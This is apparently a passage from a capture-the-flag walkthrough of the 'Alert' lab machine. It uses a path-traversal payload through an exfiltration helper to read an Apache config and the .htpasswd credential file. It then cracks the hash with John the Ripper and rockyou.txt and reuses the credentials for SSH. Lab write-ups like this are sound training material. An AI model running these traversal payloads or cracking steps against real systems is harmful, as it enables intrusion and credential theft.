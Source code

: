 Add the following to our payload
```javascript
exfil_page_content("messages.php?file=../../../../../../../../etc/apache2/sites-available/000-default.conf");
```

Decoding the response we see this
```
    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>
```

The `AuthUserFile` option contains the `.htpasswd` file path! 
One more request to read the credentials
```javascript
exfil_page_content("messages.php?file=../../../../../../../../var/www/statistic.alert.htb/.htpasswd");
```

We get the following username and hash
// htpasswd-hash

To quickly crack the hash, I'm going to use john the ripper.
The program will try to automatically detect the hash type, then
will run a dictionary attack using the famous `rockyou.txt`
wordlist.

> While john will attempt to detect the hash, sometimes there are
> multiple matching cases! Make sure to read the output and change
> the command accordingling
{: .prompt-info }

In our case, we need to add the `-format=md5crypt-long` flag. Our
final command becomes
```
JOHN COMMAND HERE
```

// john-creds

With these credentials we can access the protected subdomain

// statistics-homepage

### User Flag
> Where could credentials be reused? What service gives us access to
> the server?
{: .prompt-tip }

Admittedly, the statstics subdomain isn't very useful on its own. However,
having credentials is extremely valuable! People are often lazy when it
comes to creating new and unique passwords for every service, so
they'll reuse credentials. The only service we haven't
touched is `SSH` on port 22. Time to login
